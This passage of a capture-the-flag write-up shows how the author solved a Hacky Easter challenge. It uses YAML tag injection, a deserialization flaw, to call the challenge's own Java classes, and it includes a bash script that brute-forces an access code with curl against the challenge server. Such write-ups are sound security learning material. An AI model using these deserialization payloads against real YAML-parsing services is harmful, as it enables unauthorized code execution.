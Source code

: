 So I thought: "Damn it. If I should be able to use that exploit to load external classes from an URL, how in hell wouldn't I be able to call classes, methods and objects ALREADY THERE?"

Gathering everything, it was clear to me that I should try to inject the `image:` key.

Judging the CVE by the cover, I supposed it should start with something like `!!com.hackyeaster.digitalsnakeart.Flag [ ]`, so I started literally manually brute forcing words, positions, brackets, for hours! Until I got it right:

```yaml
name: Snakes at the Beach
image: !!com.hackyeaster.digitalsnakeart.Flag [ !!com.hackyeaster.digitalsnakeart.Code [ CODE ] ]
source: DALL-E
resolution: 256x256'
```

First thing I did was to craft a payload with a random code:
```bash
payload='name: Snakes at the Beach
image: !!com.hackyeaster.digitalsnakeart.Flag [ !!com.hackyeaster.digitalsnakeart.Code [ 30 ] ]
source: DALL-E
resolution: 256x256'

p=$(echo "$payload" | base64 -w0)
echo http://ch.hackyeaster.com:2307/art?art=$p
```
<img width="548" alt="image" src="https://user-images.githubusercontent.com/2973929/234149549-8df39d96-b204-4ce8-b565-9066d96bff09.png">



BAM! Different image! A snake with a lock!

After tyring other codes, I was sure that every time I got the code wrong I would see that image. So I got its md5 and wrote a shell script to test every code from 1 to 499:

```bash
#!/bin/bash
#
payload='name: Snakes at the Beach
image: !!com.hackyeaster.digitalsnakeart.Flag [ !!com.hackyeaster.digitalsnakeart.Code [ CODE ] ]
source: DALL-E
resolution: 256x256'


for i in {1..499}; do
        p=$(sed "s/CODE/$i/g" <<< "$payload")
        p=$(echo "$p" | base64 -w0)
        echo "tentando code=$i"
        curl -s "http://ch.hackyeaster.com:2307/art?art=$p" | grep -Eo "iVBOR[^\"]+" |base64 -d > out$i.png
        md5=($(md5sum out$i.png))
        [ "${md5[0]}" != "978e633da503b6de81d1fa44fce2f462" ] && {
                echo $i encontrado;
                echo "http://ch.hackyeaster.com:2307/art?art=$p"
                exit
        } || {
                echo "md5 de $i é $md5, igual a 978e633da503b6de81d1fa44fce2f462"
                rm out$i.png
        }
done
```
